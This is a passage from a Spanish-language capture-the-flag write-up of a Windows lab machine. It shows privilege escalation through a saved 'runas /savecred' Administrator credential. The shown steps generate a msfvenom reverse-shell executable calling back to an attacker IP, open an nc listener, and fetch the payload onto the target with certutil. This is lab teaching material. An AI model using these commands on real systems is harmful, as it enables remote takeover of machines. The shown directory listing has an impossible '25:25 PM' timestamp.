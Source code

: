 **No nos pide contraseña:**

```powershell
c:\Users\Public\Desktop>runas.exe /user:ACCESS\Administrator /savecred "C:\ZKTeco\ZKAccess3.5\Access.exe"  

c:\Users\Public\Desktop>
```

Así que probablemente está ejecutando algo con el binario `Access.exe` y no nos da problemas...

...

> **runas**: Nos permite lanzar programas (tanto propios como del sistema operativo) y archivos por lotes en nombre de otro usuario. Es decir, como usuario "x" lanzaremos un comando como usuario "y" sin necesidad de iniciar sesión en el equipo con "y". [Ejemplo de uso comando **runas.exe** en Windows](https://protegermipc.net/2018/09/05/ejemplos-uso-del-comando-runas-en-windows/).

* Otro recurso: [**RunAs.exe** en **Windows**](http://freyes.svetlian.com/RunAs/RunAs.htm).

Pues perfecto, usemos esa propia línea, pero en vez de ejecutar el binario `Access.exe` intentemos ejecutar un payload que contenga una **Reverse Shell**, así obtendríamos una Shell como el usuario **Administrator** (ya que todo lo que ejecutemos se ejecutaría como él), generémoslo con ayuda de [msfvenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/):

```bash
❱ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=4434 -f exe -o averque.exe
```

Entonces, cuando haga la petición hacia el **LHOST** por el **LPORT** generara una **shell_reverse_tcp** (una terminal normalita de toda la vida). Lo guardamos con formato `.exe` y que se llame `averque.exe`.

Pongámonos en escucha tanto en el puerto **4434** como en un servidor web para poder subir el archivo:

```bash
❱ nc -lvp 4434
listening on [any] 4434 ...
```

```bash
❱ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ahora sí, juguemos con **certutil.exe**:

```powershell
C:\Users\security\Videos>certutil.exe -f -urlcache -split http://10.10.14.16:8000/averque.exe c:\Users\security\Videos\averque.exe
```

```powershell
C:\Users\security\Videos>dir
 Volume in drive C has no label.
 Volume Serial Number is 9C45-DBF0

 Directory of C:\Users\security\Videos

06/11/2021  25:25 PM    <DIR>          .
06/11/2021  25:25 PM    <DIR>          ..
06/11/2021  25:25 PM            73,802 averque.exe
               2 File(s)        147,604 bytes
               2 Dir(s)  16,771,743,744 bytes free

C:\Users\security\Videos>
```
